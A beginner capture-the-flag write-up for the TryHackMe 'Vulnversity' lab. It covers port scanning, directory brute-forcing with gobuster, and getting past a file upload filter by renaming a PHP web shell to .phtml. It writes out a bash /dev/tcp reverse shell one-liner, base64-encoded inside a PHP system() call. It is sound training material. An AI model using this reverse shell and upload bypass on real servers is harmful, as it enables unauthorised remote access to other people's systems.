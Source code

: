 # Vulnversity Write-Up

![](https://github.com/catx0rr/tryhackme/blob/master/vulnversity/images/vulnversity.png)

Vulnversity is a Easy machine on tryhackme. This is a beginner level box to learn about recon, web app attacks and basic privilege escalation
---

## Deploy Machine

You may follow along this write up here on [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

### Connect via OpenVPN

If you are not subscribed yet on tryhackme, you may access all of the free rooms. If so, you need to connect your kali or any other pentesting distro to tryhackme network.

Connect to openvpn in order to recon and attack the machine.

if you are using the latest kali 2020.2:

```
sudo openvpn --config /path/to/openvpn_file.ovpn
```

![]()

To verify your connection, you may ping the ip_address of the machine indicated on your session.

To know your private address on the openvpn configuration, just type on the terminal:
```
ifconfig tun0
```

---

## Reconnaissance, Enumeration and Initial Access

In manual penetration testing, the first phase is to enumerate open ports. We can use the [nmap](https://nmap.org) tool to scan for open ports.

Create a directory to store the nmap file
```
mkdir nmap
nmap -sV -sC -oA nmap/vulnversity -v <ip_address>
```

Even the scanning is not done, we can see all of the open ports on the machine if we specify the -v flag on nmap.

![]()

To learn what services running, we can wait until the scanning is finished.

![]()

As we can see here, the Apache (Web server) is running on port 3333. View more details on the [nmap directory]()

Open the ip address of the machine in a browser: http://ip_address:3333

![]()

Since we discovered that the machine is running a web server, we might need to check for hidden directories. On this challenge on tryhackme we are being introduced to some tools to locate hidden directories. But lets try the very basic first. 

http://ip_address:3333/robots.txt

![]()

We can't find any hidden directories. Our goal here is to find any web pages where we can upload our reverse shell to gain initial access to the server. There's a lot of tools available. But on this write-up I'll use gobuster.

If you are using kali 2020.2 you just need to run
```
sudo apt install gobuster -y
```

to install gobuster.

If you are using other pentesting distro, or lower versions of kali we might need to build it from scratch.

To install go lang, go to: [https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz](https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz)

or simply run:
```
curl -fsSo go1.14.6.linux-amd64.tar.gz https://golang.org/doc/install?download=go1.14.6.linux-amd64.tar.gz
```

Install go:
```
sudo tar -C /usr/local -xzf go1.14.6.linux-amd64.tar.gz
```
Now we need to put the path so we can call the "go" command on terminal without going to the absolute path and run the source:
```
echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.bashrc
source .bashrc
```

You may check [golang documentation](https://golang.org/doc/install) for more details here.

Now we installed go lang, we do not need to build it from source. Just download the dependencies (Much easier right?)
```
cd /opt
sudo git clone https://github.com/OJ/gobuster
cd gobuster
sudo go get && sudo go build 
```

If you want to put it in path, just export it:
```
echo "export PATH=$PATH:/usr/local/go/bin:/opt/gobuster/gobuster"
```

To verify your installation make sure that you will see the helpscreen:
```
gobuster --help
```

Now use gobuster to bruteforce hidden directories on the server:
```
gobuster dir -u http://10.10.228.255:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![]()

We see that, all of the directories shown on the result. Now we can start check those directories. We will find that we can upload a file on https://ip_address:3333/internal/

![]()

We now need to check what is the extension type to upload so we can bypass the check. Webshells are present in /usr/share/web on kali. or if not you may use the php web shell on the link provided by tryhackme. 

Or why not create one?

```
echo "bash -i >& /dev/tcp/ip_address/port 0>&1" | base64 | xclip
echo '<?php echo system("echo sub | base64 -d | bash"); ?>' | sed s/sub/$(xclip -o)/g revshell.php
```

So now we have created a php reverse shell try and upload it on the server. We encode it to base64 since /bin/sh is not running on php, you'll have a problem on fds if you're not going to encode it.

![]()

The extension is not allowed. This is a common filtering to ensure that no other files can be uploaded on the server. But let us use BurpSuite to check what file extenstion can be uploaded on the server.

Following task 4 on Vulnversity, we will customized our attack by creating a simple dictionary for file extensions on burpsuite.

To setup burp, we just need to download foxy proxy as the extension and add a new proxy:

![]()

Once the proxy is setup, go back to http://ip_address:3333/internal/ and upload the anyfile without a .php extension. Don't submit yet since we need to ensure that we can intercept the browser traffic by capturing all traffic from foxyproxy to burpsuite.

![]()

After capturing and hitting submit, it will be redirected to burpsuite. Click on proxy > Action > Send to Intruder. After sending it to intruder, go to Positions tab > modify the extension to be blank. it should be:
```
anyfile.§§
```

![]()

Now go to Payloads tab and add these payloads and start attack:
```
php
php3
php4
php5
phtml
```

![]()

You will notice that phtml file has a different length than others. Also on the response tab we will see that it successfully uploaded the file.

![]()


Now we just need to rename our revshell.php to revshell.phtml and upload the file. create a listener and go to uploads directory on the web.
```
http://ip_address:3333/internal/uploads/revshell.phtml
```




